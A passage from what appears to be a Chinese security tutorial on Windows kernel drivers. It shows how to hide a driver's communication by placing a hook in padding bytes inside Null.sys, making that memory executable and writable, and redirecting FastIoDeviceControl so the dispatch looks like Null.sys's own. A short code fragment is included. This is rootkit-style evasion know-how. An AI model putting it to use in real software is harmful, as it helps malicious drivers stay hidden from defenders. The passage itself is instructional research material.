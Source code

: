 这样就成功劫持了系统驱动的 IO 进行通信，隐藏了通信：

[![](assets/1701606666-429d958a7218777e855f8b1f7d3c65f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106154818-d9c52e2a-7c78-1.png)

接下来就是处理这个模块，思路如下：

1.  找到 Null 驱动中空白字节
2.  修改内存属性为 PAGE\_EXCUTE\_READWIRTE
3.  HOOK 该地址跳转到我们的函数

代码如下：

```plain
ULONG64 hookPtr = searchCode("null.sys", ".text", "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0);


    status = hook_by_addr(hookPtr, DeviceIoControl,&num);

    if (!NT_SUCCESS(status))
    {
        return status;
    }

    KdPrint(("hook Ptr = %p\r\n", hookPtr));
    pDriver->FastIoDispatch->FastIoDeviceControl = hookPtr; //指定派遣函数
```

这样再去看派遣就变成 Null.sys 内部的地址了：
